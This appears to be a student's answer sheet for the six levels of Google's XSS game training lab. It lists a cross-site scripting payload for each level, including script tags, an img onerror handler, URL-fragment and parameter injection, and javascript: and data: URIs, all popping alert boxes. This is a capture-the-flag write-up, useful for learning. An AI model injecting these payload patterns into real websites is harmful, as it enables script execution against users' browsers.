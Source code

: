 # Project 2: XSS Google Challenge

## Kevin Jackson

### Level 1 Answer

Insert the following code into the text box and press enter:

```html
<script> alert('XSS') </script>
```

### Level 2 Answer

Insert the following code into the message box and press enter:

```html
<img src="http://example.com" onerror="javascript:alert(1)"/>
```

### Level 3 Answer

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
```
### Level 4 Answer

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('
```

### Level 5 Answer

Insert the following code into the search bar and press enter. After that press next:

```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("XSS")
```


### Level 6 Answer

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('XSS')
```
